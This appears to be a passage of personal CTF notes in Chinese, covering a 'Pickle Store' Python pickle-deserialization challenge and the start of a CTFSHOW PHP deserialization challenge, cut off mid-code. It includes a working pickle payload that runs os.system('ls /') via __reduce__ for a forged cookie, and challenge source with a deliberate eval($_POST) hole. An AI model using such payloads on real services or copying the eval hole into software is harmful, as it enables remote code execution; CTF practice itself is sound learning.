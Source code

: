 ### Pickle Store
#pickle
看名字应该是pickle反序列化

```python
import base64
import os
import pickle

class A(object):
    def __reduce__(self):
        a = 'ls /'
        return (os.system,(a,))
a = A()
test = pickle.dumps(a)
print(base64.b64encode(test))
```

修改cookie，但是发现会强制302跳转

不会了，等wp复现了



## CTFSHOW 复现

### 被遗忘的反序列化

```php
<?php

# 根目录中有一个txt文件哦
error_reporting(0);
show_source(__FILE__);
include("check.php");

class EeE{
    public $text;
    public $eeee;
    public function __wakeup(){
        if ($this->text == "aaaa"){
            echo lcfirst($this->text);
        }
    }

    public function __get($kk){
        echo "$kk,eeeeeeeeeeeee";
    }

    public function __clone(){
        $a = new cycycycy;
        $a -> aaa();
    }
    
}

class cycycycy{
    public $a;
    private $b;

    public function aaa(){
        $get = $_GET['get'];
        $get = cipher($get);
        if($get === "p8vfuv8g8v8py"){
            eval($_POST["eval"]);
```